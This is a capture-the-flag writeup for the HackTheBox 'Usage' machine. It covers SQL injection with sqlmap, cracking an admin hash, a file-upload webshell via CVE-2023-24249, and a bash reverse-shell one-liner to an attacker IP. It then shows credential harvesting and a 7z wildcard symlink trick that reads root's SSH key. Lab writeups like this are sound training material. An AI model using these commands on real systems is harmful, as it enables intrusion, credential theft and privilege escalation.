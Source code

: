 ```yaml
---
title: "Usage - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Usage
![](https://kar0nx.github.io/assets/images/writeup/23e804513a47e8f20bc865d0419946e1.png)
## Reconnaissance

IP: 10.10.11.18
## NMAP

```
nmap -T4 -p- -A 10.10.11.18
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 10:33 UTC
Nmap scan report for 10.10.11.18
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   30.63 ms 10.10.14.1
2   31.14 ms 10.10.11.18

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.46 seconds

```

Starting with nmap I found 2 open ports, so we know that something must be in http

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828123529.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828123945.png)

Added them to /etc/hosts and  start emumerating.
Registration works and I was able to register karon@usage.htb 123123 and log in

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828124305.png)

nothing intersting here so let's check reset password option and I found sql injection here

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828125834.png)

checking for response in burp we know that is booleon type sql injeciton so let's do it via sqlmap.
Right click copy to file and save request

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828130802.png)

```
sqlmap -r request -p email --level 5 --risk 3 --technique=B --batch --dbs
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828131844.png)

Sqlmap got something so continue by searching for db

```
sqlmap -r request -p email --level 5 --risk 3 --technique=B --batch --dbs
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828132132.png)

ok, next we need we need to dump tables

```
sqlmap -r request -p email --level 5 --risk 3 --technique=B --batch --dbs -dump -D usage_blog
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828135937.png)

now we have table names and admin_users looks promising

```
sqlmap -r request -p email --level 5 --risk 3 --technique=B --batch --dbs -dump -D usage_blog -T admin_users
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828140933.png)

we dump database and get administrator hash, now let's crack it with hashcat and try to login

```
hashcat hash /usr/share/wordlists/rockyou.txt -m 3200
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828141108.png)

We loged into admin panel with this credentials:
admin whatever1

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828141208.png)

## Gaining access

On bottom we have information about version 1.8.17. search for exploits I found juicy one, Arbitrary File Upload https://nvd.nist.gov/vuln/detail/CVE-2023-24249 
PoC: https://flyd.uk/post/cve-2023-24249/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828142921.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828143812.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828143804.png)

We got it, now create reverse shell, we know that is linux so try basic oneliner:

```
http://admin.usage.htb/uploads/images/e5c9f8c508fe97ea6ca62cdb561b985c.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.8/4444 0>%261'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828143913.png)

And we are in. Starting with linpeas I found DB password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828145405.png)

also in home directory I found .monitrc file contain credentials 

```
admin:3nc0d3d_pa$$w0rd
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828145631.png)

trying both passwords (SSH) with xander username I got hit with second password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828145839.png)

## Privilege Escalation

Starting with sudo -l

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828150129.png)

Looks like it is custom script

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828150541.png)

I used strings to extract/read script. 
So the script make a backup of /var/www/html and put them into /var/backups/project.zip with 7zip program, at the end we can spot wildcard * which we can exploit:
https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html#id-7z

```
cd /var/www/html
touch @id_rsa
ln -s /root/.ssh/id_rsa id_rsa
sudo /usr/bin/usage_management
```

and we have root private key

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828151407.png)

Now grab root.txt